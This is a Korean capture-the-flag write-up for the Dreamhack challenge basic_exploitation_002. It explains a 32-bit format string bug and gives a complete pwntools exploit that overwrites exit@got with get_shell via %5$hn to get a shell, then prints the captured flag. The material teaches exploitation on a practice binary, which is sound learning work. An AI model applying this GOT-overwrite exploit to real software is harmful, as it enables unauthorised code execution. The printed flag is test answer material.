




# B2 · basic_exploitation_002

### 1. 문제 확인

`pwnable` 분류의 B2 문제. `printf(buf)`로 사용자 입력을 포맷 문자열에 그대로 넘기는 포맷 스트링 버그(FSB)가 있다. 32비트(i386), No PIE(고정 주소 0x8048000), Partial RELRO, NX, 카나리 없음. 바이너리 안에 `system("/bin/sh")`를 실행하는 `get_shell` 함수가 이미 있으므로, 실행 흐름을 이 함수로 돌리면 셸이 열린다.

<p align="center">
  
</p>

### 2. 코드

```c
void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    char buf[0x80];
    initialize();
    read(0, buf, 0x80);
    printf(buf);     // ★ FSB
    exit(0);         // PLT를 통한 exit 호출
}
```

- `printf(buf)` → buf 안의 `%p`, `%n`이 포맷으로 해석된다.
- `read`는 한 번만 받는다. FSB 기회는 1번뿐이다.
- main 끝의 `exit(0)`은 바이너리 자신의 `exit@plt`로 호출된다(아래 5번에서 이게 핵심이 된다).

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 23481)
e = ELF("./basic_exploitation_002")

exit_got  = e.got["exit"]                       # 0x804a024
get_shell = p32(e.symbols["get_shell"])         # 0x08048609

# exit GOT의 하위 2바이트만 get_shell로 덮기 (%hn = 2바이트)
under = int.from_bytes(get_shell[:2], "little") # 0x8609 = 34313

payload  = f"%{under}c".encode()   # under 글자 출력 -> count = under
payload += b"%5$hn"                # 그 count를 5번째 인자(=exit GOT 주소)에 2바이트 기록
to_add = 16 - len(payload)
payload += b"A" * to_add           # 주소를 offset 16(%5$)에 맞추는 패딩
payload += p32(exit_got)           # offset 16 = %5$ 자리

p.send(payload)
p.interactive()   # main 끝 exit() -> get_shell -> system("/bin/sh")
```

### 4. 32비트에서 인자 세는 법 — 왜 `%5$`인가

64비트는 가변인자를 레지스터 5개부터 쓰지만, 32비트(cdecl)는 레지스터 전달이 없고 모든 인자가 스택에 있다. `printf(fmt)` 호출 시 스택은:

| 인자 번호 | 위치 |
|---|---|
| (fmt) | `[esp]` ← 포맷 포인터 자체라 `%N$`가 안 셈 |
| %1$ | 포맷 포인터 바로 위 스택 워드 |
| %2$ | 그 다음 워드 |
| ... | 4바이트씩 위로 |

이 바이너리에서는 `buf`의 시작이 정확히 `%1$` 자리에 놓인다. 즉 buf 안의 offset이 그대로 인덱스로 이어진다(4바이트 단위):

- buf+0  = `%1$`
- buf+4  = `%2$`
- buf+8  = `%3$`
- buf+12 = `%4$`
- buf+16 = `%5$`

그래서 쓸 주소를 buf+16에 두면 그게 `%5$`이고, `%5$hn`이 그 주소를 읽어 거기에 값을 기록한다.

### 5. 왜 exit GOT를 덮는가 — get_shell 주소를 넣는다

Partial RELRO라 GOT가 쓰기 가능하다. 그리고 main은 끝에서 `exit(0)`을 바이너리 자신의 PLT로 호출한다:

```text
main 끝:   call exit@plt
exit@plt:  jmp dword ptr [0x804a024]   ; jmp *exit@got
```

`exit@plt`는 `exit@got`에 적힌 주소로 점프한다. 따라서 `exit@got`(0x804a024)를 `get_shell`(0x8048609)로 덮으면, main이 `exit(0)`을 호출하는 순간 `get_shell`으로 점프하고 `system("/bin/sh")`가 실행된다.

**왜 2바이트(`%hn`)만 덮는가**: `exit@got`의 초기값은 PLT 내부 주소 `0x08048476`이고, 목표 `get_shell`은 `0x08048609`다. 상위 2바이트는 `0x0804`로 이미 같고, 하위 2바이트(`0x8476` → `0x8609`)만 다르다. 그래서 하위 2바이트만 `%hn`으로 덮으면 전체 주소가 `0x08048609`이 된다. 4바이트 전부 쓸 필요가 없다.

### 6. payload 배치

```text
offset 0  : "%34313c%5$hn"   (12바이트, 포맷)
offset 12 : "AAAA"           (4바이트 패딩) → 16까지 채움
offset 16 : p32(exit_got)    ← %5$ 자리 (exit GOT 주소)
```

```text
buf+0  : "%34313c%5$hn"    (포맷)
buf+12 : "AAAA"            (패딩)
buf+16 : p32(0x804a024)    ← %5$  ← 여기에 exit GOT "주소"가 쌓인다
```

- `%5$hn` = 5번째 인자가 가리키는 주소에 기록. 그 자리(buf+16)에 `exit@got` 주소를 놓았으니, 거기에 출력 카운트가 쓰인다.
- `%34313c` = 문자 1개를 폭 34313으로 출력 → 출력 글자 수 = 34313 = `0x8609`. 그 값이 `%5$hn`으로 `exit@got` 하위 2바이트에 들어간다.
- 포맷(`%34313c%5$hn`)이 12바이트라 offset 12까지 찬다. 주소는 4바이트 경계에 둬야 `%N$`가 깨끗이 읽으므로, `AAAA`로 16까지 채운 뒤 주소를 놓았다.

### 7. 실행 흐름

```text
printf(buf) [FSB]  ->  exit@got 하위 2바이트 = 0x8609  (= get_shell)
main 끝 exit(0)    ->  jmp *exit@got  ->  get_shell  ->  system("/bin/sh")
```

핵심은 두 단계다. `printf`가 출력 문자를 포맷으로 해석해 `%n`으로 원하는 주소에 값을 쓴다. 그 다음 `exit`가 PLT를 거쳐 덮인 주소로 점프한다. 즉 `exit`의 인자에 `get_shell` 주소를 넣은 셈이 되어, 반환 시점에 셸이 열린다.

### 8. 공백이 왜 이렇게 많은가

<p align="center">
  
</p>

실행하면 화면이 공백으로 가득 찬다. 정상이다. `%34313c`가 문자 1개를 폭 34313으로 출력하므로 공백 34313개가 찍힌다.

`%n`류는 "지금까지 출력한 글자 수"를 주소에 쓴다. `exit@got`에 `0x8609`(= 34313)을 넣으려면 그만큼 글자를 출력해 printf 카운터를 34313으로 만들어야 한다. 그 34313글자가 전부 폭 패딩(공백)이라 터미널이 공백으로 도배된 것이다. 넣을 값이 클수록 공백도 많아진다. 기능이 제대로 동작한 흔적이다.

### 9. 실행 결과

<p align="center">
  
</p>

```text
DH{59c4a03eff1e4c10c87ff123fb93d56c}
```
